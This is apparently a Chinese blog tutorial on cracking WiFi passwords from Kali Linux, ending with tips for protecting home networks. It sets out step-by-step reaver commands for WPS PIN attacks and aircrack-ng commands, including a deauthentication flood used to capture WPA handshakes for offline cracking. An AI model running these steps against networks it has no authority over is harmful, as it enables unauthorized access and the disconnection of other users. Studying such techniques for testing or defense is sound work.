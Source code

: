 ```yaml
---
title: Kali系统下WiFi密码破解
date: 2015-11-01 11:01:00
category: OS
tags: 
    - Linux
---
```


在网络渗透中,能够接入被攻击者的网络至关重要,只要黑客接入你的网络,利用DNS欺骗,arp攻击等各种钓鱼技术,基本上就能获取一切信息,WIFI网络的安全性重要性不言而喻!

手机上有很多类似360免费WIFI和WIFI万能钥匙的软件,可以"破解"WIFI密码,实际上这类软件不是"破解"而是"偷"密码,这类软件在安装的时候会自动上传你家的WIFI密码,也有可能是你一不小心分享出去的!分享之后别人使用软件就能连上你家的WIFI了,一般来说,商家WIFI比较多。

<!--more-->

## 常见的WIFI破解技术有2种:

攻击测试环境:kali linux 64位,可以安装双系统,如果用虚拟机的话必须要用外置USB网卡!

### 1.PIN

该技术主要利用路由器的wps功能的bug,PIN 码分前4 和后4，先破前4 只有最多一万个组合，破后4 中的前3 只有一千个组合，一共就是一万一千个密码组合。 10 的4 次方+10 的3 次方=11000 个密码组合。当reaver 确定前4 位PIN 密码后，其任务进度数值将直接跳跃至90.9%以上，也就是说只剩余一千个密码组合了。总共一万一千个密码!

主要攻击工具:reaver,该工具十分强大,有很多配置参数,这里只列出最简单的攻击步骤,仅供参考:
```
1.airmon-ng start wlan0 #启动网卡的监听模式
2.airodump-ng wlan0mon  #查看周围区域所有WIFI信号情况
3.reaver -i wlan0mon -b AP_MAC -vv  #开始pin
4.reaver -i wlan0mon -b AP_Mac -p WPS_PIN  #得到pin值获取密码
```

>其实现在很多路由器都关闭了wps功能,所以没法pin,而且很多新的路由器都是防pin!

### 2.暴力穷尽破解

该技术理论上只要计算机计算能力够强大,没有什么密码破解不了!只是时间长短的问题.先抓握手包然后跑包!

主要工具: aircrack-ng
```
1.airmon-ng check kill        #kill一些无关进程
2.airmon-ng start wlan0       #开启网卡监听模式
3.airodump-ng wlan0mon        #查看周围区域所有WIFI信号情况
4.airodump-ng -c 信道 --bssid 目标mac -w wep wlan0mon   #开始抓包
5.airodump-ng -c 信道 --bssid 目标mac wlan0mon  #查看当前环境的WiFi连接情况
6.aireplay-ng --deauth 10000 -a 目标mac -c 客户端mac wlan0mon   #对连接到目标ap的客户端攻击,使其掉线,抓取握手包!
```

备注:抓包的关键是第6步抓取握手包,所谓握手包就是对方设备掉线后重新连接WIFI时候的数据包,只要抓到握手包就可以了。

拿到握手包后切换到windows系统,用EWSA等软件跑包,跑包速度看机器配置,主要是看显卡配置,本人笔记本i7+gt750M,一秒钟2万次,其实也看运气,如果是弱密码,分分钟钟的事情,如果是包含字母\标点符号\特殊符号的密码......那几乎不可能!

### 3.防备措施:
1. 不要安装 xxx免费WIFI等软件,如果不小心把密码分享出去的话,只能改密码了!

2. 关闭路由器wps功能.此功能大部分人都用不到

3. 隐藏ssid.这样别人就搜不到你家的WIFI信号，虽然用途并不大

4. 使用复杂密码,包含字母\标点符号\特殊符号!这招最有效
